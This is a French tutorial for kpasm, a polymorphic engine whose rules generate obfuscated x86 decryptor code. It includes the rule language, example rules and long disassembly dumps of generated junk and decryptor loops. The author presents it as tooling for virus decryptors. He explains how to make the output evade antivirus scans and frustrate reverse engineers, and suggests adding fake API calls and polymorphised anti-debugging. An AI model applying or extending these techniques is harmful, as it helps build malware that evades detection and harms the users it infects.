00401C26 . BB C1C893C8 MOV EBX,C893C8C1 00401C2B . BE EA4C556F MOV ESI,6F554CEA 00401C30 . 2BDE SUB EBX,ESI 00401C32 . BD 6B109A69 MOV EBP,699A106B 00401C37 . 2BDD SUB EBX,EBP 00401C39 . BA EDF12BA2 MOV EDX,A22BF1ED 00401C3E . BD ACA22F6E MOV EBP,6E2FA2AC 00401C43 . 03D5 ADD EDX,EBP 00401C45 . 03DA ADD EBX,EDX 00401C47 . BF 85E25D2D MOV EDI,2D5DE285 00401C4C . BE 37A59AFE MOV ESI,FE9AA537 00401C51 . 2BFE SUB EDI,ESI 00401C53 . BE EEED707E MOV ESI,7E70EDEE 00401C58 . BA F2534761 MOV EDX,614753F2 00401C5D . 03F2 ADD ESI,EDX 00401C5F . 03FE ADD EDI,ESI 00401C61 . BD 0961FD64 MOV EBP,64FD6109 00401C66 . 81C5 5BBADE98 ADD EBP,98DEBA5B 00401C6C . BE C5639F10 MOV ESI,109F63C5 00401C71 . 03EE ADD EBP,ESI 00401C73 . 2BFD SUB EDI,EBP 00401C75 > BE 05000000 MOV ESI,5 00401C7A . 03DE ADD EBX,ESI 00401C7C . BE B4134788 MOV ESI,884713B4 00401C81 . BA D4BE91B1 MOV EDX,B191BED4 00401C86 . 03F2 ADD ESI,EDX 00401C88 . BA B1ACB5E9 MOV EDX,E9B5ACB1 00401C8D . 03F2 ADD ESI,EDX 00401C8F . BD 952C4625 MOV EBP,25462C95 00401C94 . BA A35248FE MOV EDX,FE4852A3 00401C99 . 03EA ADD EBP,EDX 00401C9B . 2BF5 SUB ESI,EBP 00401C9D . 2BFE SUB EDI,ESI 00401C9F . BA 00000000 MOV EDX,0 00401CA4 . 3BD7 CMP EDX,EDI 00401CA6 .^75 CD JNZ SHORT main.00401C75Idem que précédemment. Là, le registre de boucle est edi.
L'instruction label permet de poser un label de la même manière qu'un label en langage assembleur. Néanmoins, il existe quelques différences :
saut_nz(label0); // saut en avant ----------------\ mov_reg_cst(freereg0,rndint0); // | label0; // <-----------------------------/Pour info, ceci est effectué en lançant plusieurs passes successives sur le pseudo-code, les premières passes ne servant qu'à calculer les adresses des labels.
Pour les sauts relatifs où l'on a besoin uniquement de la taille du code généré entre deux labels (comme c'est le cas pour saut_nz), cela n'a pas d'importance. Faites attention néanmoins si vous comtpez utiliser des adresses absolues (pour un jmp far par exemple).
Pour lock : lock(ressource,nom_global).
Pour free : free(ressource ou nom_global).
Voyons tout d'abord l'instruction lock. Celle-ci remplit principalement deux rôles:
/* Ce registre ne sera pas libéré à la fin de la règle ! */ lock(freereg0,compteur); mov_reg_cst(freereg0,mul2-1);
Pour libérer une ressource ainsi lockée, le seul moyen est d'utiliser l'instruction free. Dans le cas de l'exemple juste au dessus, cela donnerait:
free(compteur);ou encore, si le free a lieu dans la même règle que le lock:
free(freereg0);
Vous pouvez locker également un label ou encore une valeur entière. Dans ce cas-là, le lock n'aura aucune incidence sur le comportement du moteur (pas de réservation de ressource). Cela peut néanmoins être utile pour pouvoir acceder globalement à une valeur ou un label, comme nous allons-le voir tout de suite.
ajoute()
{
add_reg_cst(dest,a_ajouter);
}
Les identifiants ``dest'' et ``a_ajouter'' sont en effet des noms globaux définis grâce aux instructions lock de la transformation init. Du coup, on peut y acceder depuis n'importe quelle règle. Lock est un peu le pendant de l'affectation pour kpasm.
Cependant, notez-bien, si vous faites deux locks successifs avec le même nom_global, la valeur assignée lors du premier lock sera écrasée. Par exemple:
lock(0xDEADBEEF,kikoo); lock(0xDEADBABE,kikoo); write32(kikoo);
Ces instruction écriront uniquement OxDEADBABE, le deuxième lock ayant remplacé le premier.
En effet, Kpasm a été prévu pour que le code généré utilise non seulement des registres, mais également des variables en mémoire. Cela permet d'avoir un code généré beaucoup plus subtil et plus passe-partout (montrez-moi un seul programme classique qui n'utilise pas de variables en mémoire).
L'utilisation de la mémoire se fait très simplement à l'instar des registres, via la variabe spéciale freemem. Voyons tout de suite un petit exemple.
NB_CASES_MEMOIRE EQU 100 memoire dd NB_CASES_MEMOIRE dup (?)
Maintenant, nous allons pouvoir spécifier à poly_asm que nous utilisons ce tableau, le bien-nommé memoire, dans notre poly_engine. Pour ce faire, il suffit de passer :
xor ebp,ebp ;pas de delta offset, c'est un exemple, pas un virus :)
lea esi,pseudo_code ;pseudo-code à polymorphiser
lea edi,code_genere ;où stoker le code généré
mov ecx,edi ;le code sera executé sur place
mov edx,4000 ;taille max du code généré *par pseudo-opcode*
lea eax,[ebp+memoire] ;dans notre cas, future adresse memoire = adresse
lea ebx,[ebp+memoire] ;courante memoire
call poly_asm
Ensuite, si vous etiez dans le cadre d'un virus, il faudrait vous assurer de bel et bien recopier le tableau memoire à l'adresse prévue. Quand je dis l'adresse prévue, c'est qu'il faut faire en sorte que lorsque le code généré sera executé, le tableau se trouve à l'adresse spécifiée dans ebx. NB: ce tableau doit être recopié dans l'état dans lequel il se trouve après l'appel à poly_asm.
Pour vous repérer un peu, voila un petit récapitulatif des paramètres à passer à la fonction poly_asm :
pseudo_code:
mov_reg_cst REG_EAX 0DEADBEEFh
FIN_DECRYPTEUR
Vous noterez l'apparition de la nouvelle variable freemem ainsi que du nouveau type adresse.
mov_reg_cst(reg:registre,cst:entier)
{
16: {
mov_reg_cst(reg,cst-[freemem0]);
add_reg_mem(reg,freemem0);
}
16: {
mov_reg_cst(reg,[freemem0]+cst);
sub_reg_mem(reg,freemem0);
}
0: DEFAUT {
write8(0xB8|reg);
write32(cst);
}
}
add_reg_reg(regdest:registre,regsrc:registre)
{
1: DEFAUT {
write16(0xC003 | regdest<<11 | regsrc<<8);
}
}
add_reg_mem(reg:registre,adr:adresse)
{
1: DEFAUT {
write16(0x0503 | (reg << 11));
write32(adr);
}
}
sub_reg_reg(regdest:registre,regsrc:registre)
{
1: DEFAUT {
write16(0xC02B | regdest << 11 | regsrc << 8);
}
}
sub_reg_mem(reg:registre,adr:adresse)
{
1: DEFAUT {
write16(0x052B | reg<<11);
write32(adr);
}
}
Théoriquement, mise à part l'arrivée de l'adressage mémoire, rien de nouveau pour vous. Les adresse mémoire se manipulent très simplement : ce sont juste des entiers.
0040173A . B8 C7B087DE MOV EAX,DE87B0C7 0040173F . 0305 EC304000 ADD EAX,DWORD PTR DS:[4030EC] 00401745 . 2B05 F8304000 SUB EAX,DWORD PTR DS:[4030F8] 0040174B . 0305 7C304000 ADD EAX,DWORD PTR DS:[40307C] 00401751 . 2B05 18314000 SUB EAX,DWORD PTR DS:[403118] 00401757 . 2B05 48304000 SUB EAX,DWORD PTR DS:[403048] 0040175D . 0305 20314000 ADD EAX,DWORD PTR DS:[403120] 00401763 . 0305 28314000 ADD EAX,DWORD PTR DS:[403128] 00401769 . 2B05 88304000 SUB EAX,DWORD PTR DS:[403088] 0040176F . 0305 78304000 ADD EAX,DWORD PTR DS:[403078]Dans cet exemple, le tableau mémoire était situé à l'adresse 0x403000.
0040173A . B8 0C10FBDE MOV EAX,DEFB100C 0040173F . 0305 28304000 ADD EAX,DWORD PTR DS:[403028] 00401745 . 2B05 60314000 SUB EAX,DWORD PTR DS:[403160] 0040174B . 0305 38314000 ADD EAX,DWORD PTR DS:[403138] 00401751 . 0305 90304000 ADD EAX,DWORD PTR DS:[403090] 00401757 . 0305 64304000 ADD EAX,DWORD PTR DS:[403064] 0040175D . 2B05 DC304000 SUB EAX,DWORD PTR DS:[4030DC] 00401763 . 2B05 04314000 SUB EAX,DWORD PTR DS:[403104] 00401769 . 0305 70314000 ADD EAX,DWORD PTR DS:[403170] 0040176F . 2B05 00314000 SUB EAX,DWORD PTR DS:[403100]
Vous verrez dans le chapitre suivant comment initialiser la valeur de certaines cases, ou encore comment modifier leur valeur au cours de la polymorphisation.
En conséquence, lorsque vous appelez poly_asm deux fois de suite, la mémoire est réinitialisée à chaque appel. Si vous polymorphisez des bouts de codes, qui seront exécutés séquentiellement, à travers plusieurs appels successif à poly_asm, le code perdra le souvenir des modifications effectuées en mémoire par le bout de code précédent. Si vous comprenez rien, retenez juste que si vous utilisez la mémoire, mieux vaut générer tout le code via un unique appel à poly_asm.
Les valeurs de ces variables sont les futures adresses des cases mémoires (calculées à l'aide du paramètre ebx passé à poly_asm.
Une nouvelle opération apparait néanmoins, qui est la lecture mémoire. On la représente ainsi, par exemple dans mov_reg_cst :
mov_reg_cst(reg,[freemem0]+cst);
Cette opération permet tout simplement d'accéder à l'entier présent à l'adresse freemem0. On va appeler cette opération l'indirection, c'est sensiblement pareil qu'en assembleur. Vous pouvez l'utiliser sur:
Je les ai développé principalement pour mon utilisation perso, c'est pour quoi ce chapitre sera un peu court. D'autant que l'utilisation de mem_changed n'est pas vraiment évidente, et on a vite fait d'introduire des petits bugs dans le poly si on en sait pas exactement ce que l'on fait.
Vous trouverez un début d'exemple dans le répertoire exemple 6. Cet exemple montre une utilisation de mem_changed et n'est pas très développé. En tout cas, je ne le commenterai pas.
Si vous désirez qu'une case mémoire possède une valeur particulière, il vous est possible de le spécifier via l'instruction mem_init. Cette instruction est à appeler avant toute utilisation de ladite case mémoire.
Il faut noter que non seulement elle indique au décrypteur que la case mémoire possède la valeur <x>, mais elle affecte réellement la valeur à la case mémoire. Autrement dit, avant même le lancement du programme, cette case mémoire aura pour valeur <x>. C'est pourquoi il faut recopier le tableau mémoire après l'appel à poly_asm, car poly_asm peut modifier ce tableau, tout simplement.
Voici un petit exemple:
mem_init(freemem0,0xDEADBEEF); lock(freemem0,ma_variable);Dans l'exemple je lock la variable derrière parce que souvent, quand on assigne une valeur à une case mémoire, c'est pour s'en reservir plus tard logiquement. Si dans les instructions suivantes vous utilisez la valeur [ma_variable], vous verrez qu'elle a bien la valeur 0xDEADBEEF.
junk()
{
1: {
mov_mem_cst(freemem1,rndint0); //change la valeur de la case mémoire
MEM_CHANGED(freemem1,rndint0); //et l'indique au poly
}
0:DEFAUT {
write8(0x90);
}
}
A la différence de mem_init, mem_changed ne modifie pas le tableau de cases mémoire. Cette instruction indique simplement au poly que, si on l'appelle via mem_changed(xx,yy) par exemple, les prochains accès à [xx] renverront yy.
Attention néanmoins si vous utilisez cette instruction dans une boucle. Je m'explique, si le code que vous générez effectue une boucle, et qu'au milieu de cette boucle, vous appelez mem_changed , vous risquez d'avoir des surprises. Par exemple:
mem_init(freemem1,5678); // pour l'exemple label0; // ... du code (A) mov_mem_cst(freemem1,1234); //change la valeur de la case mémoire MEM_CHANGED(freemem1,1234); //et l'indique au poly // ... du code (B) genere_boucle(label0);Pour le poly, dans la partie (A), toutes les instructions [freemem1] renverrons 5678. Dans la partie (B), elle renverront 1234. Jusque là c'est normal, on est d'accord.
Seulement, pour le code généré, ce sera peut être vrai au premier tour de boucle, mais pas au second, ni à tous les tours suivants. Au deuxième tour de boucle, même dans la partie (A), la case mémoire représentée par freemem1 aura pour valeur 1234 car elle a été changée dans le premier tour de boucle.
Pour faire simple, gardez à l'esprit que kpasm ne sait pas quel genre de code vous produisez, aussi, quand vous utilisez l'intruction mem_changed, réflechissez-y à deux fois.
Si vous voulez utiliser kpasm pour polymorphiser un décrypteur, les règles de ce septième exemple pourront vous servire de base. Elles ne sont pas parfaites on est d'accord, cela reste toujours plus ou moins un poly à base de mov/add/sub, mais ca commence à ressembler à quelque chose.
pseudo_code:
decrypteur
FIN_DECRYPTEUR
Plutôt simple non ? J'aurais pu éclater le décrypteur en plusieurs sous-opérations (genre lit .. decrypte .. ecrit .. boucle) comme je l'avais fait pour l'exemple 4, mais j'ai eu envie de changer. Et puis ca vous permettra d'apprecier comment au sein d'une transformation, kpasm optimise l'espace utilisé pour généré le plus de code possible.
Si vous désirez faire un vrai poly, il vous faudra tout de même sortir de ce poly mov/add/sub, car trop facilement détectable. Le mieux est d'avoir beaucoup de règles avec de faibles probabilités chacune. Il faut éviter le plus possible les séquences qui se répetent, comme mes mov/add et mes add/add.
Un poly pourri comme ça ne passerait surement pas un scan AV, néanmoins, pour un reverseur, ca doit déjà être un peu chiant de deviner ce que ce bout de code fait. Imaginez maintenant avec plus de boucles, des fake calls, des fake api calls, des anti-dbg polmyorphisés cachés la dessous, le tout sur plus de 100k. Vous ca vous prend ptet deux heures à faire tout ça, et le reverseur, lui, il y passe ses nuits. hihihi.
00403345 . BE 37A9A8BD MOV ESI,BDA8A937 0040334A . BD 21E59910 MOV EBP,1099E521 0040334F . 2BF5 SUB ESI,EBP 00403351 . 890D B3514000 MOV DWORD PTR DS:[4051B3],ECX 00403357 . C705 B3514000 >MOV DWORD PTR DS:[4051B3],2D6A89 00403361 . 81C6 13BA4B53 ADD ESI,534BBA13 00403367 . B9 CB514000 MOV ECX,main.004051CB 0040336C . 8B29 MOV EBP,DWORD PTR DS:[ECX] 0040336E . BD B1A71B00 MOV EBP,1BA7B1 00403373 . 032D D3524000 ADD EBP,DWORD PTR DS:[4052D3] 00403379 . 8955 00 MOV DWORD PTR SS:[EBP],EDX 0040337C . BF C3DF50AE MOV EDI,AE50DFC3 00403381 . 81EF DB3849AE SUB EDI,AE4938DB 00403387 . 893D 93504000 MOV DWORD PTR DS:[405093],EDI 0040338D . 2B35 0B524000 SUB ESI,DWORD PTR DS:[40520B] 00403393 . 8915 47524000 MOV DWORD PTR DS:[405247],EDX 00403399 . 53 PUSH EBX 0040339A . BF A63A6232 MOV EDI,32623AA6 0040339F . 2BDF SUB EBX,EDI 004033A1 . 5B POP EBX 004033A2 . B9 E3524000 MOV ECX,main.004052E3 004033A7 . 8911 MOV DWORD PTR DS:[ECX],EDX 004033A9 . 81C1 7199EE66 ADD ECX,66EE9971 004033AF . BF 7199EE66 MOV EDI,66EE9971 004033B4 . 2BCF SUB ECX,EDI 004033B6 . BD C8794867 MOV EBP,674879C8 004033BB . BF 831EDA98 MOV EDI,98DA1E83 004033C0 . 03EF ADD EBP,EDI 004033C2 . 892D E3524000 MOV DWORD PTR DS:[4052E3],EBP 004033C8 . 8B15 47524000 MOV EDX,DWORD PTR DS:[405247] 004033CE . 893D 4B514000 MOV DWORD PTR DS:[40514B],EDI 004033D4 . 81EF 8B2502B0 SUB EDI,B002258B 004033DA . 8B3D 4B514000 MOV EDI,DWORD PTR DS:[40514B] 004033E0 . C705 4B514000 >MOV DWORD PTR DS:[40514B],91761 004033EA . BF A99F6C00 MOV EDI,6C9FA9 004033EF . 2B3D BF524000 SUB EDI,DWORD PTR DS:[4052BF] 004033F5 . 892F MOV DWORD PTR DS:[EDI],EBP 004033F7 . 81C7 1104F743 ADD EDI,43F70411 004033FD . 57 PUSH EDI 004033FE . 51 PUSH ECX 004033FF . B9 48D05CA7 MOV ECX,A75CD048 00403404 . 2BF9 SUB EDI,ECX 00403406 . 59 POP ECX 00403407 . 5F POP EDI 00403408 . 81EF 1104F743 SUB EDI,43F70411 0040340E . B9 D8373300 MOV ECX,3337D8 00403413 . 8B3D 87514000 MOV EDI,DWORD PTR DS:[405187] 00403419 . 2B0D AF524000 SUB ECX,DWORD PTR DS:[4052AF] 0040341F . 890D C3524000 MOV DWORD PTR DS:[4052C3],ECX 00403425 . C705 47524000 >MOV DWORD PTR DS:[405247],0CBF78 0040342F . 8B3D 03514000 MOV EDI,DWORD PTR DS:[405103] 00403435 . 8915 0F504000 MOV DWORD PTR DS:[40500F],EDX 0040343B . 8915 CF514000 MOV DWORD PTR DS:[4051CF],EDX 00403441 . C705 CF514000 >MOV DWORD PTR DS:[4051CF],3FC8BB 0040344B . 8B15 0F504000 MOV EDX,DWORD PTR DS:[40500F] 00403451 . C705 0F504000 >MOV DWORD PTR DS:[40500F],1A310F 0040345B . 03F7 ADD ESI,EDI 0040345D . BB BD68B51F MOV EBX,1FB568BD 00403462 . 81C3 862139E0 ADD EBX,E0392186 00403468 . B9 D6780800 MOV ECX,878D6 0040346D . 030D 0B504000 ADD ECX,DWORD PTR DS:[40500B] 00403473 . 8B39 MOV EDI,DWORD PTR DS:[ECX] 00403475 . BF 3F504000 MOV EDI,main.0040503F 0040347A . 8B2F MOV EBP,DWORD PTR DS:[EDI] 0040347C . BA 8B514000 MOV EDX,main.0040518B 00403481 . 8B0A MOV ECX,DWORD PTR DS:[EDX] 00403483 . 2BDD SUB EBX,EBP 00403485 . 8B3D 97524000 MOV EDI,DWORD PTR DS:[405297] 0040348B . 8915 0F524000 MOV DWORD PTR DS:[40520F],EDX 00403491 . B9 AE78C82D MOV ECX,2DC878AE 00403496 . 55 PUSH EBP 00403497 . BD E9D777D2 MOV EBP,D277D7E9 0040349C . 03CD ADD ECX,EBP 0040349E . 5D POP EBP 0040349F . 8B29 MOV EBP,DWORD PTR DS:[ECX] 004034A1 . BF 4B48C51B MOV EDI,1BC5484B 004034A6 . 03EF ADD EBP,EDI 004034A8 . 81ED 4B48C51B SUB EBP,1BC5484B 004034AE . C705 0F524000 >MOV DWORD PTR DS:[40520F],0EF2F7 004034B8 . BF BD37C621 MOV EDI,21C637BD 004034BD . 51 PUSH ECX 004034BE . B9 26197ADE MOV ECX,DE7A1926 004034C3 . 03F9 ADD EDI,ECX 004034C5 . 59 POP ECX 004034C6 . 8B2F MOV EBP,DWORD PTR DS:[EDI] 004034C8 . B9 FB524000 MOV ECX,main.004052FB 004034CD . 8B11 MOV EDX,DWORD PTR DS:[ECX] 004034CF . 52 PUSH EDX 004034D0 . 53 PUSH EBX 004034D1 . BB C2E20F87 MOV EBX,870FE2C2 004034D6 . 2BFB SUB EDI,EBX 004034D8 . 5B POP EBX 004034D9 . B9 905044A5 MOV ECX,A5445090 004034DE . 2BD1 SUB EDX,ECX 004034E0 . 5A POP EDX 004034E1 . 03DD ADD EBX,EBP 004034E3 . 031D 13524000 ADD EBX,DWORD PTR DS:[405213] 004034E9 > 8B06 MOV EAX,DWORD PTR DS:[ESI] 004034EB . 05 9258E875 ADD EAX,75E85892 004034F0 . 53 PUSH EBX 004034F1 . BB 9258E875 MOV EBX,75E85892 004034F6 . 2BC3 SUB EAX,EBX 004034F8 . 5B POP EBX 004034F9 . 8B2D 5F504000 MOV EBP,DWORD PTR DS:[40505F] 004034FF . BD 93514000 MOV EBP,main.00405193 00403504 . 897D 00 MOV DWORD PTR SS:[EBP],EDI 00403507 . C705 93514000 >MOV DWORD PTR DS:[405193],561DA 00403511 . 05 75F4A2AA ADD EAX,AAA2F475 00403516 . BF 42860900 MOV EDI,98642 0040351B . 033D FB504000 ADD EDI,DWORD PTR DS:[4050FB] 00403521 . 8B17 MOV EDX,DWORD PTR DS:[EDI] 00403523 . BF E84F45BC MOV EDI,BC454FE8 00403528 . BA 735BA211 MOV EDX,11A25B73 0040352D . 2BFA SUB EDI,EDX 0040352F . 8B15 AB524000 MOV EDX,DWORD PTR DS:[4052AB] 00403535 . 2BC7 SUB EAX,EDI 00403537 . BD 3D28541F MOV EBP,1F54283D 0040353C . 55 PUSH EBP 0040353D . 8B3D 3F514000 MOV EDI,DWORD PTR DS:[40513F] 00403543 . 57 PUSH EDI 00403544 . 893D 7F524000 MOV DWORD PTR DS:[40527F],EDI 0040354A . C705 7F524000 >MOV DWORD PTR DS:[40527F],27ABD2 00403554 . 5F POP EDI 00403555 . 55 PUSH EBP 00403556 . 892D 53514000 MOV DWORD PTR DS:[405153],EBP 0040355C . B9 C30B2900 MOV ECX,290BC3 00403561 . 890D 53514000 MOV DWORD PTR DS:[405153],ECX 00403567 . 5D POP EBP 00403568 . 5A POP EDX 00403569 . BF 8EE276F0 MOV EDI,F076E28E 0040356E . B9 44CF2701 MOV ECX,127CF44 00403573 . 03F9 ADD EDI,ECX 00403575 . 81E9 2E11D056 SUB ECX,56D0112E 0040357B . BA 570A441B MOV EDX,1B440A57 00403580 . 81C2 D138AB19 ADD EDX,19AB38D1 00403586 . 2BFA SUB EDI,EDX 00403588 . 53 PUSH EBX 00403589 . BA 0F02F186 MOV EDX,86F1020F 0040358E . 2BDA SUB EBX,EDX 00403590 . 5B POP EBX 00403591 . 53 PUSH EBX 00403592 . 8B15 17524000 MOV EDX,DWORD PTR DS:[405217] 00403598 . 8B15 9F504000 MOV EDX,DWORD PTR DS:[40509F] 0040359E . 81C3 41B060D2 ADD EBX,D260B041 004035A4 . 5B POP EBX 004035A5 . 81C5 A7AB08BE ADD EBP,BE08ABA7 004035AB . 8915 8B514000 MOV DWORD PTR DS:[40518B],EDX 004035B1 . 57 PUSH EDI 004035B2 . 893D E7504000 MOV DWORD PTR DS:[4050E7],EDI 004035B8 . C705 E7504000 >MOV DWORD PTR DS:[4050E7],3823EB 004035C2 . 5F POP EDI 004035C3 . C705 8B514000 >MOV DWORD PTR DS:[40518B],1CBFF0 004035CD . 03C7 ADD EAX,EDI 004035CF . BA D45C3F94 MOV EDX,943F5CD4 004035D4 . 8B3D 93504000 MOV EDI,DWORD PTR DS:[405093] 004035DA . 8B3D 2F524000 MOV EDI,DWORD PTR DS:[40522F] 004035E0 . 81C2 AE2C074B ADD EDX,4B072CAE 004035E6 . 8B0D CF524000 MOV ECX,DWORD PTR DS:[4052CF] 004035EC . 893D 67504000 MOV DWORD PTR DS:[405067],EDI 004035F2 . C705 67504000 >MOV DWORD PTR DS:[405067],3B294 004035FC . 81EA 5F3906DF SUB EDX,DF06395F 00403602 . 8B2A MOV EBP,DWORD PTR DS:[EDX] 00403604 . 57 PUSH EDI 00403605 . 51 PUSH ECX 00403606 . 50 PUSH EAX 00403607 . B8 92045EDB MOV EAX,DB5E0492 0040360C . 2BC8 SUB ECX,EAX 0040360E . 58 POP EAX 0040360F . 59 POP ECX 00403610 . 81C7 1571E0E0 ADD EDI,E0E07115 00403616 . 5F POP EDI 00403617 . 8915 CF514000 MOV DWORD PTR DS:[4051CF],EDX 0040361D . BD EE1C28CD MOV EBP,CD281CEE 00403622 . 8B3D 77524000 MOV EDI,DWORD PTR DS:[405277] 00403628 . 03EF ADD EBP,EDI 0040362A . BF AF514000 MOV EDI,main.004051AF 0040362F . 8B0F MOV ECX,DWORD PTR DS:[EDI] 00403631 . 56 PUSH ESI 00403632 . 81EE AC0AA5CD SUB ESI,CDA50AAC 00403638 . 5E POP ESI 00403639 . 81C5 2E9BBD7F ADD EBP,7FBD9B2E 0040363F . 893D 2B524000 MOV DWORD PTR DS:[40522B],EDI 00403645 . 57 PUSH EDI 00403646 . 81EF 43F17C12 SUB EDI,127CF143 0040364C . 5F POP EDI 0040364D . C705 2B524000 >MOV DWORD PTR DS:[40522B],114F1 00403657 . BF 2CD21AB3 MOV EDI,B31AD22C 0040365C . 033D CB524000 ADD EDI,DWORD PTR DS:[4052CB] 00403662 . 03EF ADD EBP,EDI 00403664 . BF C30F13CC MOV EDI,CC130FC3 00403669 . 81EF 2ECFD565 SUB EDI,65D5CF2E 0040366F . 56 PUSH ESI 00403670 . 53 PUSH EBX 00403671 . BB 5FB0DD2F MOV EBX,2FDDB05F 00403676 . 2BF3 SUB ESI,EBX 00403678 . 5B POP EBX 00403679 . 5E POP ESI 0040367A . 81C7 3A11039A ADD EDI,9A03113A 00403680 . 892F MOV DWORD PTR DS:[EDI],EBP 00403682 . 2D AA6EAFBC SUB EAX,BCAF6EAA 00403687 . B9 A97183DD MOV ECX,DD8371A9 0040368C . 8B15 9B504000 MOV EDX,DWORD PTR DS:[40509B] 00403692 . 8B15 83514000 MOV EDX,DWORD PTR DS:[405183] 00403698 . 03CA ADD ECX,EDX 0040369A . 8915 DF504000 MOV DWORD PTR DS:[4050DF],EDX 004036A0 . C705 DF504000 >MOV DWORD PTR DS:[4050DF],28026E 004036AA . BD 17A8A44F MOV EBP,4FA4A817 004036AF . BA ABC3ADE4 MOV EDX,E4ADC3AB 004036B4 . 03EA ADD EBP,EDX 004036B6 . BF 03524000 MOV EDI,main.00405203 004036BB . 8B17 MOV EDX,DWORD PTR DS:[EDI] 004036BD . 03CD ADD ECX,EBP 004036BF . 8B2D 07534000 MOV EBP,DWORD PTR DS:[405307] 004036C5 . BF FE000000 MOV EDI,0FE 004036CA > 52 PUSH EDX 004036CB . 81EA 0AFD96C4 SUB EDX,C496FD0A 004036D1 . 81EA F6986A35 SUB EDX,356A98F6 004036D7 . 81EA 792F019E SUB EDX,9E012F79 004036DD . 81EA E59A19FD SUB EDX,FD199AE5 004036E3 . 51 PUSH ECX 004036E4 . B9 EB90A384 MOV ECX,84A390EB 004036E9 . 03D1 ADD EDX,ECX 004036EB . 59 POP ECX 004036EC . 5A POP EDX 004036ED . 81EF 01000000 SUB EDI,1 004036F3 .^75 D5 JNZ SHORT main.004036CA 004036F5 . 030D E7514000 ADD ECX,DWORD PTR DS:[4051E7] 004036FB . BA 5C41AE80 MOV EDX,80AE415C 00403700 . 81EA 8F075980 SUB EDX,8059078F 00403706 . 8B3D 33504000 MOV EDI,DWORD PTR DS:[405033] 0040370C . 2BD7 SUB EDX,EDI 0040370E . 892A MOV DWORD PTR DS:[EDX],EBP 00403710 . 81EF 1DE96F59 SUB EDI,596FE91D 00403716 . BF E988E8A6 MOV EDI,A6E888E9 0040371B . 81EF 8237A8A6 SUB EDI,A6A83782 00403721 . 892F MOV DWORD PTR DS:[EDI],EBP 00403723 . 81C7 39EAAF58 ADD EDI,58AFEA39 00403729 . 81EF 39EAAF58 SUB EDI,58AFEA39 0040372F . BA 7F18AF02 MOV EDX,2AF187F 00403734 . 81C2 491075FD ADD EDX,FD751049 0040373A . BF 4A199B2A MOV EDI,2A9B194A 0040373F . 81EF E3C75A2A SUB EDI,2A5AC7E3 00403745 . 8917 MOV DWORD PTR DS:[EDI],EDX 00403747 . BF 6E101300 MOV EDI,13106E 0040374C . 2B3D BB514000 SUB EDI,DWORD PTR DS:[4051BB] 00403752 . 033D 5F504000 ADD EDI,DWORD PTR DS:[40505F] 00403758 . 8B2F MOV EBP,DWORD PTR DS:[EDI] 0040375A . 57 PUSH EDI 0040375B . 81EF 01768723 SUB EDI,23877601 00403761 . 5F POP EDI 00403762 . 81C5 CEC41DD2 ADD EBP,D21DC4CE 00403768 . 81ED CEC41DD2 SUB EBP,D21DC4CE 0040376E . BF 686AE06A MOV EDI,6AE06A68 00403773 . 033D FF524000 ADD EDI,DWORD PTR DS:[4052FF] 00403779 . 53 PUSH EBX 0040377A . 81EB 78F5515D SUB EBX,5D51F578 00403780 . 5B POP EBX 00403781 . 56 PUSH ESI 00403782 . 81EE 7E0BECD4 SUB ESI,D4EC0B7E 00403788 . 5E POP ESI 00403789 . 81EF 9F330D6B SUB EDI,6B0D339F 0040378F . 893D 87524000 MOV DWORD PTR DS:[405287],EDI 00403795 . 2BC1 SUB EAX,ECX 00403797 . 8906 MOV DWORD PTR DS:[ESI],EAX 00403799 . B9 D1956D00 MOV ECX,6D95D1 0040379E . BF 07524000 MOV EDI,main.00405207 004037A3 . 8917 MOV DWORD PTR DS:[EDI],EDX 004037A5 . C705 07524000 >MOV DWORD PTR DS:[405207],137C8B 004037AF . 2B0D 13524000 SUB ECX,DWORD PTR DS:[405213] 004037B5 . 8B29 MOV EBP,DWORD PTR DS:[ECX] 004037B7 . B9 8918BEB7 MOV ECX,B7BE1889 004037BC . 81EF 9A842695 SUB EDI,9526849A 004037C2 . BF E7514000 MOV EDI,main.004051E7 004037C7 . 8B17 MOV EDX,DWORD PTR DS:[EDI] 004037C9 . 2BCA SUB ECX,EDX 004037CB . BA 67514000 MOV EDX,main.00405167 004037D0 . 892A MOV DWORD PTR DS:[EDX],EBP 004037D2 . BF C8282400 MOV EDI,2428C8 004037D7 . 893D 67514000 MOV DWORD PTR DS:[405167],EDI 004037DD . 8B3D 37504000 MOV EDI,DWORD PTR DS:[405037] 004037E3 . 03CF ADD ECX,EDI 004037E5 . 893D 0B534000 MOV DWORD PTR DS:[40530B],EDI 004037EB . C705 0B534000 >MOV DWORD PTR DS:[40530B],24B5C9 004037F5 . 8915 A7514000 MOV DWORD PTR DS:[4051A7],EDX 004037FB . BF 6CCAE4E6 MOV EDI,E6E4CA6C 00403800 . 81C7 9A085B19 ADD EDI,195B089A 00403806 . 893D A7514000 MOV DWORD PTR DS:[4051A7],EDI 0040380C . 51 PUSH ECX 0040380D . BA 3D568616 MOV EDX,1686563D 00403812 . BF 41A29E74 MOV EDI,749EA241 00403817 . 03D7 ADD EDX,EDI 00403819 . 8B3D FB504000 MOV EDI,DWORD PTR DS:[4050FB] 0040381F . BD DE385E67 MOV EBP,675E38DE 00403824 . 032D 2F504000 ADD EBP,DWORD PTR DS:[40502F] 0040382A . 2BCA SUB ECX,EDX 0040382C . 59 POP ECX 0040382D . 03F1 ADD ESI,ECX 0040382F . 50 PUSH EAX 00403830 . 52 PUSH EDX 00403831 . BA F0BCCF86 MOV EDX,86CFBCF0 00403836 . BD 77514000 MOV EBP,main.00405177 ; ASCII "tT:" 0040383B . 8B4D 00 MOV ECX,DWORD PTR SS:[EBP] 0040383E . 2BD1 SUB EDX,ECX 00403840 . 5A POP EDX 00403841 . BA 1F1D7D2D MOV EDX,2D7D1D1F 00403846 . 8B2D 9B514000 MOV EBP,DWORD PTR DS:[40519B] 0040384C . BF 7833C3D2 MOV EDI,D2C33378 00403851 . 03D7 ADD EDX,EDI 00403853 . 8902 MOV DWORD PTR DS:[EDX],EAX 00403855 . BD 061A595F MOV EBP,5F591A06 0040385A . 2B2D 53504000 SUB EBP,DWORD PTR DS:[405053] 00403860 . 50 PUSH EAX 00403861 . B8 8DA662A9 MOV EAX,A962A68D 00403866 . 2BF8 SUB EDI,EAX 00403868 . 58 POP EAX 00403869 . BF 74C6FEA0 MOV EDI,A0FEC674 0040386E . 8B15 B7524000 MOV EDX,DWORD PTR DS:[4052B7] 00403874 . 03EF ADD EBP,EDI 00403876 . B9 3E731400 MOV ECX,14733E 0040387B . 8B3D EF514000 MOV EDI,DWORD PTR DS:[4051EF] 00403881 . 03CF ADD ECX,EDI 00403883 . 8929 MOV DWORD PTR DS:[ECX],EBP 00403885 . 81C1 